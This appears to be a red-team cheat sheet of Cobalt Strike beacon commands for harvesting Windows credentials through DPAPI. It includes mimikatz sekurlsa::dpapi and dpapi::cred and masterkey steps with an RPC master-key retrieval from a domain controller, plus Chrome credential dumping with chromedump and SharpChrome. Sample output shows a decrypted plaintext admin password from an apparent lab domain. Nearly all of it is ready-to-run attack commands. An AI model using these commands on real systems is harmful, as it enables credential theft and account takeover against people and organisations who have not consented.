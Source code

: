 Local Admin

```
beacon> mimikatz sekurlsa::dpapi
[...]
```

Standard User

```
# list creds
beacon> shell vaultcmd /listcreds:"Windows Credentials" /all
[...]

# list files
beacon> ls c:\users\<user>\AppData\Local\Microsoft\Credentials

# Get blob, note guidMasterKey and pbData
beacon> mimikatz dpapi::cred /in:c:\users\<user>\AppData\Local\Microsoft\Credentials\<credential>
[...]

# get user sid
beacon> powershell-import /opt/tools/PowerSploit/Recon/PowerView.ps1
beacon> powershell ConvertTo-SID -ObjectName 'h.samuelson' -Domain 'vault.io'
S-1-5-21[...]

# get MasterKey
beacon> c:\users\h.samuelson\appdata\Roaming\Microsoft\Protect\<sid>\
[...]

beacon> mimikatz dpapi::masterkey /in:c:\users\h.samuelson\appdata\Roaming\Microsoft\Protect\<sid>\<guid> /rpc
[domainkey] with RPC
[DC] 'vault.io' will be the domain
[DC] 'dc01.vault.io' will be the DC server
  key : [...]

# decrypt
beacon> mimikatz dpapi::cred /in:c:\users\h.samuelson\AppData\Local\Microsoft\Credentials\<credential> /masterkey:<masterkey>
[...]
UserName: vault\server_admin
CredentialBlog: l33tPw4vault
```

Chrome

```
# cs
beacon> chromedump

# SharpChrome
beacon> execute-assembly /opt/tools/SharpChrome.exe history logins
```
